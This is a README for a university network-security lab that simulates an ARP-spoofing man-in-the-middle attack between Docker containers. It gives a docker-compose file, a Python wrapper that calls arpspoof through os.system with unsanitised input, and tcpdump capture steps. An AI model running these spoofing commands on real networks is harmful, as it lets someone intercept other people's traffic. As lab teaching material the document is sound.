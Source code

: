 
```
# Network Security Lab: Man-in-the-Middle Attack Simulation with Docker

## Introduction
In this lab, you will simulate a Man-in-the-Middle (MITM) attack using Docker and Docker Compose. The goal is to set up two virtual machines: one representing a victim and the other an attacker, connected through a common network. You will use Wireshark to analyze network traffic and a custom script to mimic the behavior of Winarp.exe to carry out an ARP spoofing attack.

## Prerequisites
Before starting this lab, make sure you have the following installed:
- Docker Desktop (supports both x86 and Apple Silicon)
- Wireshark (for network traffic analysis)
- Basic understanding of ARP spoofing and networking concepts

## Lab Setup

### Step 1: Install Docker Desktop
Docker Desktop is required to simulate the victim and attacker machines. If you haven’t installed Docker Desktop, follow the installation instructions here: [Docker Desktop Installation](https://docs.docker.com/desktop/).

Once installed, verify that both Docker and Docker Compose are working by running:
```

```bash
docker --version
docker-compose --version
```

### Step 2: Clone the Lab Repository
The lab environment is available as a Docker Compose configuration. Clone the repository to your local machine using:

```bash
git clone https://github.com/ncat-grad-development/comp726-hw1-alt
cd comp726-hw1-alt
```

### Step 3: Docker Compose Configuration
The following `docker-compose.yml` sets up two containers (victim and attacker) connected through a common network. The attacker container will have elevated network permissions to simulate an MITM attack.

```yaml
version: '3'
services:
  victim:
    image: ubuntu:latest
    container_name: victim
    command: sleep infinity
    networks:
      - mitm_net
    cap_add:
      - NET_RAW

  attacker:
    image: ubuntu:latest
    container_name: attacker
    command: sleep infinity
    networks:
      - mitm_net
    cap_add:
      - NET_ADMIN

networks:
  mitm_net:
    driver: bridge
```

### Step 4: MITM Attack Script
The following script simulates the ARP spoofing attack. It should be executed in the attacker container.

```python
# Basic Python script to simulate MITM setup
import os

victim_ip = input("Enter victim IP: ")
gateway_ip = input("Enter gateway IP: ")

# Run ARP spoofing (this needs to be done in the attacker container)
os.system(f"arpspoof -i eth0 -t {victim_ip} {gateway_ip}")
os.system(f"arpspoof -i eth0 -t {gateway_ip} {victim_ip}")
```

### Step 5: Run the Lab Environment
Once you have the `docker-compose.yml` file and the MITM script in place, you can start the lab environment using the following command:

```bash
docker-compose up
```

This will start two containers: `victim` and `attacker`, both connected through a common network.

### Step 6: Launch the Attack
To launch the MITM attack, follow these steps:

1. Open a terminal window for the attacker container:
   ```bash
   docker exec -it attacker bash
   ```

2. Run the MITM Python script inside the attacker container. The script will prompt you to enter the victim's IP and the gateway IP.

   Assuming your victim container has an IP of `172.18.0.2` and the gateway has an IP of `172.18.0.1`, you would run:
   ```bash
   python3 mitm_script.py
   ```

   Then, input the victim IP and gateway IP as prompted:
   ```bash
   Enter victim IP: 172.18.0.2
   Enter gateway IP: 172.18.0.1
   ```

   This will initiate the ARP spoofing attack.

### Step 7: Generate Network Traffic on the Victim
You can simulate network traffic from the victim container by running basic network commands like `ping` or `curl`:

1. Open a terminal for the victim container:
   ```bash
   docker exec -it victim bash
   ```

2. Use the `ping` command to generate network traffic:
   ```bash
   ping 172.18.0.1  # Gateway IP
   ```

3. You can also try `curl` to generate HTTP requests:
   ```bash
   curl http://ncat.edu
   ```



### Step 8: Use `tcpdump` to Analyze Traffic

1. **Install `tcpdump`**:
   If `tcpdump` is not already installed in the attacker container, install it using the following command:
   ```bash
   apt-get update && apt-get install -y tcpdump
   ```

2. **Capture traffic on the Docker bridge network**:
   Start capturing traffic in the attacker container on the `eth0` interface (or the relevant interface for the container). Run the following command in the attacker container:
   ```bash
   tcpdump -i eth0 -w mitm_capture.pcap
   ```

   This will capture all traffic on the interface `eth0` and save it to the file `mitm_capture.pcap`.

3. **Analyze captured traffic**:
   After capturing the traffic, you can transfer the `.pcap` file to your local machine for analysis using a tool like Wireshark, or you can analyze it directly from the command line using `tcpdump`:

   - To view the contents of the capture file:
     ```bash
     tcpdump -r mitm_capture.pcap
     ```

   - To filter ARP traffic only:
     ```bash
     tcpdump -r mitm_capture.pcap arp
     ```

4. **Transferring the `.pcap` file**:
   If you need to analyze the capture in Wireshark (on a GUI machine), you can copy the `.pcap` file to your host machine. For example, using `docker cp`:
   ```bash
   docker cp attacker:/path/to/mitm_capture.pcap ./mitm_capture.pcap
   ```

   Then, you can open the `mitm_capture.pcap` file in Wireshark for further analysis.

### Step 9: Clean Up
When you are done with the lab, you can stop and remove the Docker containers by running:

```bash
docker-compose down
```

## Conclusion
In this lab, you successfully simulated a Man-in-the-Middle attack using Docker and Docker Compose. You learned how ARP spoofing works and used `tcpdump` to analyze the network traffic. Be sure to review the captured traffic to fully understand how MITM attacks can be executed and detected.

